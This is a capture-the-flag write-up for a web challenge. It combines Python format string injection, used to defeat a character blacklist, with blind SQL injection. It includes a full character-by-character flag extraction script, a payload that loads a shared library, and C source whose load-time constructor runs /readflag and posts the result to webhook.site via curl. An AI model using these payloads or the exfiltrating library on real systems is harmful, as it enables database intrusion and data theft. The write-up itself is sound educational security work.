 ```yaml
---
created: 2025-01-12T11:00
updated: 2025-01-12T19:00
solves: 33
points: 460
---
```


After some testing I discovered the world of python format string attacks.

```python
username = "{password.__init__}"
password = "hi"

SELECT * FROM users WHERE username = '<method-wrapper '__init__' of str object at 0x00007FF90538C3B8>' AND password = 'hi'
```

Soon I found out how to bypass the blacklist entirely.

```python
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

username = "{A}' OR 1=1 -- '"
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

r = requests.post("https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/", data={
    "username": username,
    "password": "w"
})
print(r.text)
```

However the server does not reply with anything, so simply logging in isn't helpful.

```python
user = cursor.fetchone()
if user:
	flash("Login successful!", 'success')
	return render_template('under_construction.html')
else:
	flash("Login Failed\n"+sanitized_query, 'error')
```

I tried leaking the credentials in global but they are just the default credentials.

## Part 1: SQL '%' operation

Then I implemented a char-by-char attack by using SQL's `%` wild card.

Login success only happens if the last char is correctly guessed.

```python
import string
import asyncio
import aiohttp
from tqdm.asyncio import tqdm
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

# UNION SELECT NULL, NULL, flag FROM flags --
target = "https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/"
# target = "http://localhost:5000/"


async def check_flag(session, flag):
    username = "{A}' OR EXISTS (SELECT 1 FROM flags WHERE flag LIKE CONCAT(UNHEX('"+flag.encode().hex()+"'), '%')) #"
    for i, c in enumerate(MALICIOUS_CHARS):
        username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

    async with session.post(target, data={
        "username": username,
        "password": "w"
    }) as response:
        text = await response.text()
        return flag if "Login successful!" in text else None


async def check(flag):
    async with aiohttp.ClientSession() as session:
        tasks = []
        for c in string.printable:
            if c == '%':
                c = '\\%'
            if c == '_':
                c = '\\_'
            tasks.append(check_flag(session, flag + c))

        results = []
        for task in tqdm(asyncio.as_completed(tasks), total=len(tasks)):
            results.append(await task)
        for result in results:
            if result:
                return result
    return None


async def main():
    flag = "uoftctf"
    while True:
        flag = await check(flag)
        if flag is None:
            break
        print(flag)
        if flag[-1] == '}':
            break
    print(flag.replace('\\', ''))

asyncio.run(main())
```

### part 1 flag

```flag
uoftctf{R3M3Mb3R_70_c173_Y0uR_50URc35_1N_5qL_F0RM47}
```

## Part 2

- SQL's `into outfile` does not work on pre-existing files.
- Template injection was not able to call any functions.
- `cdll[/readflag]` fails due to it not being position independent.

My closest attempt was writing a binary via SQL then trying to load it.

```python
import base64
import re
import requests
import html
import os
target = "http://localhost:5000/"


MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]
with open("exploit.so", "rb") as f:
    payload = base64.b64encode(f.read()).decode('utf-8')

# username = "{B}' UNION (SELECT FROM_BASE64('"+payload+"'),NULL,NULL) INTO OUTFILE '/run/mysqld/payload.so' # -- "
username = """{B}{{A}}' {{A.__init__.__globals__[setuptools].windows_support.ctypes.cdll[/run/mysqld/payload.so]}}"""
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{B.MALICIOUS_CHARS[%d]}" % i)
# print(username)
response = requests.post(target, data={
    "username": username,
    "password": "w"
})

decoded_response = response.content.decode('utf-8')
decoded_response = html.unescape(decoded_response)
print(decoded_response)

```

This is the source of `payload.so`.

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```

It works locally (via python script).

```python
import ctypes
ctypes.cdll['./exploit.so']
```

But for some reason, never on the docker or remote.

The file is there, but I get error of `file not found` when trying to execute it with format string payload.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736726181/2025/01/df944d01f0a33f1134a02a51267e84a4.png)

After the CTF ended, I realised that I was really close.

All I had to do was switch `OUTFILE` to `DUMPFILE`.

![200w.gif](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736727242/2025/01/cdd29fbe6702a911d79e99121cf3bb62.gif)
